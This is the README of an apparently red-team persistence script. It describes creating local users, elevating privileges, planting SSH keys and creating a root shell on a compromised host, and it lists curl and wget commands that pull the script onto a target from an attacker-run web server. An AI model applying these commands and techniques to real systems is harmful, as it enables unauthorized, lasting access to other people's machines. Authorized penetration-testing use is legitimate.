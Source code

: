 # Persistence Phase

In this phase, an attempt is made to maintain persistence on the host or network. This is to maintain access to the compromised system, even if the system is rebooted or credentials are changed, for example. This includes creating new accounts or securing access via SSH, among other things.

With this script it is possible to apply some persistence techniques to get a foothold on a system.

## Features

- Create local user
- Elevate privileges
- Modify ssh keys
- Create a root shell

## Usage

From github:
```sh
curl -LJO https://github.com/McSquizzy/red-team-toolbox/blob/main/persistence/persistence.sh
sh persistence.sh -h
```
Local network:
```sh
# Host:
sh persistence.sh -w
# Target:
curl -LJO <Host>:8000/persistence.sh #or
curl <Host>:8000/persistence.sh > persistence.sh #or
wget <Host>:8000/persistence.sh
sh persistence.sh -h
```

### Parameters

```
sh persistence.sh -h

Usage: persistence.sh [options]

Options:
-h                Show this help message
-e <username>     Elevate privileges of the given user
                  Root needed!
-r                Create a root shell
                  Root needed!
-s <ssh pub key>  Trying to add ssh public key to authorized_keys of current user
                  Put the contents of your public key in quotes like: -s "ssh-rsa AAAAB3NcaDkL......"
-u <username>     Add a local account/user
                  Only useful in combination with -p parameter
                  Root needed!
-p <password>     Set this password to new or existent user
                  Root needed!
-w                Serves a local web server for transferring files

Output:
-q                Quiet. No banner and no advisory displayed
```

## Results

The results are printed directly to STDOUT.

## Compatibility

The script uses /bin/sh syntax and is fully POSIX compatible so can run on most unix-based (POSIX/Unix/Linux) systems. 